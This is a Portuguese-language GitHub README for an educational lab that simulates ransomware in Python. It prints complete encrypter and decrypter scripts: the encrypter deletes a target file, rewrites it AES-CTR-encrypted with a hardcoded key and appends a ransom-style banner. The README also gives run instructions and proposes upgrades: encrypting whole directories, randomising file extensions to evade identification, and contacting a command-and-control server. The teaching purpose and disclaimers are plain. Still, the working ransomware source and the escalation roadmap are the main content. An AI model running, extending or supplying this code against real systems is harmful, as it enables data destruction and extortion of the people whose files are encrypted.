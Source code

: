 # LAB-02:  Entendendo um Ransomware na Prática com Python

## Resumo

Esse laborátorio ira simular um ataque de ransomware simples, criptografando um arquivo e adicionando uma mensagem de resgate.
Será demonstrado os conceitos básicos de criptografia e como um ataque de ransomware funciona.

***Este código é fornecido apenas para fins educacionais e demonstrativos. O uso indevido pode resultar em consequências legais.***

## Simulação de Ransomware em Python

### Arquivos

<details>
<summary>Encrypter</summary>

**Função:** Criptografa o arquivo especificado.

**Processo:**

* Lê o arquivo alvo.
* Criptografa o conteúdo usando o algoritmo AES em modo CTR com uma chave pré-definida.
* Adiciona uma mensagem de resgate ao final do arquivo criptografado.
* Sobrescreve o arquivo original com a versão criptografada.

**File:** [encrypter.py](./source_code/encrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name

insert_warning = """#!#!#!
    +-----------------------------------------------------------------+
    |                                                                 |
    |                DADOS ENCRIPTADOS COM SUCESSO!!!!                |
    |                                                                 |
    |        Este ataque simulado demonstra a facilidade com que      |  
    |    dados podem ser comprometidos por ransomware.                |
    |        Mesmo em um cenário simplificado,                        |
    |    a ameaça é real e os riscos são elevados.                    |
    |                                                                 |
    |                       Ethical Disclaimer:                       |
    |     Este código é destinado apenas para fins educacionais.      |
    |                                                                 |
    +-----------------------------------------------------------------+
    """

text_bytes = insert_warning.encode('utf-8')

final_data = crypto_data + text_bytes

with open(f'{new_file}','wb') as new_file:
    new_file.write(final_data)
    new_file.close()
```

</details>

<details>
<summary>Decrypter</summary>

**Função:** Descriptografa o arquivo criptografado.

**Processo:**

* Lê o arquivo criptografado.
* Identifica a posição da mensagem de resgate.
* Remove a mensagem de resgate.
* Descriptografa o conteúdo criptografado usando a mesma chave utilizada na criptografia.
* Sobrescreve o arquivo original com a versão descriptografada.

**File:** [decrypter.py](./source_code/decrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

warning_index = file_data.find(b"#!#!#")

if warning_index != -1:
    file_data = file_data[:warning_index]

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "TARGET"

with open(f'{new_file}','wb') as new_file:
    new_file.write(decrypt_data)
    new_file.close()
```

</details>

## Como Usar

### Requisitos:

* Python instalado
* Biblioteca pyaes instalada

```
pip install pyaes
```

### Configuração:

* Modifique a variável `file_name`, caso queira, em ambos os scripts para especificar o arquivo alvo.
* A chave de criptografia key é definida nos scripts. Para maior segurança, utilize chaves mais complexas e geradas aleatoriamente.

### Execução:

* Execute o script encrypter.py para criptografar o arquivo.

```
python encrypter.py  
```

* Execute o script decrypter.py para descriptografar o arquivo.

```
python decrypter.py 
```

### Exemplo de Uso:

<img align="center" src="./assets/print.png" />

## Segurança

Este é um exemplo simplificado. Ataques de ransomware reais utilizam algoritmos mais complexos, chaves mais longas e mecanismos de persistência.

Nunca compartilhe a chave de criptografia com terceiros.

Faça backups regulares dos seus dados para se proteger contra perdas.

## Limitações

A chave utilizada é estática e conhecida por ambos os scripts. Em um cenário real, a chave seria gerada aleatoriamente e transmitida de forma segura.

O algoritmo AES em modo CTR é vulnerável a ataques se a mesma chave de inicialização (IV) for reutilizada.

## Melhorias

Implementar a geração de chaves aleatórias.

Utilizar diferentes modos de operação do AES para maior segurança.

Adicionar funcionalidades como:

* Criptografia de diretórios inteiros.
* Extensões de arquivos aleatórias para dificultar a identificação.
* Comunicação com um servidor de comando e controle para receber instruções.
